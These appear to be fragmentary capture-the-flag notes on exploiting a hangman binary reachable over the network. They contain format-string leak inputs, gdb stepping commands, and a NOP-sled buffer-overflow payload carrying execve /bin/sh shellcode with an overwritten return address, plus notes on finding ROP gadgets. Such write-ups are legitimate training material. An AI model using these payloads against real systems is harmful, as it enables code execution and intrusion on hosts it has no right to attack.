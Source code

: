 
possible payloads
```
$ nc 167.99.118.184 31339
***IMPORTANT***
This program is still a shell, code is still in development
A full game of hangman is unavailable at this time

Welcome to hangman v0.1!
Select game mode (1, 2, or 3): 2
Please enter a word: %x %x %x %x %x %s



$ nc 167.99.118.184 31339
***IMPORTANT***
This program is still a shell, code is still in development
A full game of hangman is unavailable at this time

Welcome to hangman v0.1!
Select game mode (1, 2, or 3): 2
Please enter a word: %x %x %x %x %x %x %x %x %s

```


gdb ./hangman
break *0x000055555555530b
run 
continue
`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H1\xd2H1\xc0PH\xbb/bin//shSH\x89\xe7PWH\x89\xe6\xb0;\x0f\x05AABBBBBBBB\x90\xdc\xff\xff\xff\x7f`

nexti
x/64x $rsp


^^


### My Solve


- run x64dbg on kali (long install) 
  ```
    git clone --recursive https://github.com/x64dbg/x64dbg.git

    cd x64dbg
    mkdir build
    cd build
    cmake ..
    make -j$(nproc)


    ```
- run with : `./release/x64dbg`



- looks like there'a ROPGadget we can use. seee:  http://ropshell.com/ 
  - upload the ELF
  - helps find the ROPGadgets to manipulate parts of memory.
    - it's a type of buffer overflow control that let's us print items out in memory by manipulating the stack
    - ex: `pop rdi; ret` , `leave; ret`, `pop rbp; ret`


  ```
